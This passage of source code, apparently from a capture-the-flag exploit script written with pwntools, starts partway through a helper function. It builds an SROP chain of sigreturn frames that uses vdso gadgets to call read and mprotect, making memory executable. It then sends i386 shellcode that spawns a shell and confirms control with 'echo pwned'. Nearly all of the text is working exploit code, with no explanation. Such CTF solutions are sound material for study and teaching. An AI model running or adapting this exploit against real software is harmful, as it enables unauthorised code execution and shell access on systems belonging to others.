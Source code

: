 ```
        count -= len(tmp)
    return buf
def sl(data):
    return io.sendline(data)
def sn(data):
    return io.send(data)
def info(string):
    return log.info(string)
def dehex(s):
    return s.replace(' ','').decode('hex')
def limu8(x):
    return c_uint8(x).value
def limu16(x):
    return c_uint16(x).value
def limu32(x):
    return c_uint32(x).value
# define interactive functions here
def rop(ropchain):
    payload = 0x16 * 'A' + ropchain
    payload = payload.ljust(0x400, 'A')
    sn(payload)
    return
shellcode = asm(shellcraft.i386.linux.sh(), arch='i386')
# define exploit function here
def do_pwn(vdso):
    writable = vdso - 0x4000
    payload = ''
    payload += 3 * 'AAAA' + p32(vdso + 0x401)
    frame1 = SigreturnFrame(kernel='amd64')
    frame1.eax = constants.SYS_read
    frame1.ebx = 0
    frame1.ecx = writable + 0x200
    frame1.edx = len(shellcode)
    if LOCAL: frame1.eip = vdso + 0xcde
    else: frame1.eip = vdso + 0x42e
    frame1.esp = writable + len(SigreturnFrame(kernel='amd64')) + len(payload)
    payload += bytes(frame1)
    #payload += 3 * 'AAAA' + p32(vdso + 0xcb1)
    payload += 3 * 'AAAA' + p32(vdso + 0x401)
    frame2 = SigreturnFrame(kernel='amd64')
    frame2.eax = constants.SYS_mprotect
    frame2.ebx = writable
    frame2.ecx = 0x1000
    frame2.edx = 7
    #frame2.eip = vdso + 0xcde
    frame2.eip = vdso + 0x42e
    frame2.esp = writable + len(SigreturnFrame(kernel='amd64')) + len(payload)
    payload += bytes(frame2)
    payload += 3 * 'AAAA' + p32(writable + 0x200)
    frame = SigreturnFrame(kernel='amd64')
    frame.eax = constants.SYS_read
    frame.ebx = 0
    frame.ecx = writable   # page offsets
    frame.edx = len(payload)
    frame.esp = writable    # offset
    #frame.eip = vdso + 0xcde    # sigreturn
    frame.eip = vdso + 0x42e
    roppayload = p32(vdso + 0x401)
    roppayload += bytes(frame)
    rop(roppayload)
    sn(payload)
    sn(shellcode)
    sl('echo pwned')
```
